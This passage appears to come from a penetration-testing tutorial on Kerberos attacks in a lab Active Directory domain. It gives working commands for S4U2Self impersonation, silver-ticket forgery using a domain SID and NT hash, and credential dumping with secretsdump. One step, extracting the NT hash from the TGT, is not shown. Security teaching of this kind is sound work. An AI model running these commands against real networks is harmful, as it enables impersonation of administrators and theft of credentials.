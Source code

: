  
Once you have the TGT of the relayed computer account, there are two options for gaining privileged access to that system:

Use the TGT and the Kerberos S4U2Self process to impersonate a privileged user account to an arbitrary service on the host.
Extract the computer account’s NT hash from the TGT that was obtained and forge a silver ticket to impersonate a privileged user account to an arbitrary service on the host.
I’ll demonstrate the steps for both attack options.

S4U2Self
For this step, we’ll need the gets4uticket.py tool from the same PKINITtools repo where we got the gettgtpkinit.py script. The syntax on the command is a bit complex so just be mindful of all your parameters. The output file, stored as “administrator-cifs.ccache”, will be a CIFS TGS ticket for the administrator@babysteps.domain user to the LA-WIN11-22H2-1$ host.
 
 
 
    python3 ./gets4uticket.py kerberos+ccache://babysteps.domain\\LA-WIN11-22H2-1\$:F0COeLZL.ccache@10.2.10.11 CIFS/LA-WIN11-22H2-1.babysteps.domain@babysteps.domain administrator@babysteps.domain administrator-cifs.ccache
 
 
 
 For the final steps in this attack, we set the KRB5CCNAME environment variable to use the CIFS ticket and then leverage the Impacket secretsdump tool to acquire credentials from the LA-WIN11-22H2-1 system.
 
 
    export KRB5CCNAME=/opt/tools/PKINITtools/administrator-cifs.ccache
 
    klist   
    
    
    
Now that we have the NT hash of the LA-WIN11-22H2-1$ computer account, we can use that as the RC4 encryption key to forge a silver ticket to that system using the Impacket ticketer.py tool.

One of the required details to forge a silver ticket is the SID of the target domain. There are many ways to obtain that value, and, in this example, I’ll use the pywerview tool to grab the SID of the babysteps\administrator account. The SID of the domain itself will be contained within the SID of that account, so it’s a bit of a shortcut to get to the value we need.    
    
        python3 ./pywerview.py get-adobject -d babysteps.domain -u domainuser -p 'password' -t 10.2.10.11 --sam-account-name administrator --attributes objectsid
    
Now we have all the data we need to create the silver ticket. In this example, we’ll create a silver ticket for the CIFS service on behalf of the babysteps\administrator user.

        ticketer.py -domain babysteps.domain -domain-sid S-1-5-21-3396363035-2530258332-185159541 -nthash 1d71869aed329543b37a520096015ee6 -spn cifs/LA-WIN11-22H2
    
    
    
Finally, we’ll set the KRB5CCNAME environment variable and leverage secretsdump to retrieve credentials from LA-WIN11-22H2-1’s registry.


    export KRB5CCNAME=/opt/tools/PKINITtools/administrator.ccache

    klist       

    secretsdump.py -k -no-pass LA-WIN11-22H2-1.babysteps.domain
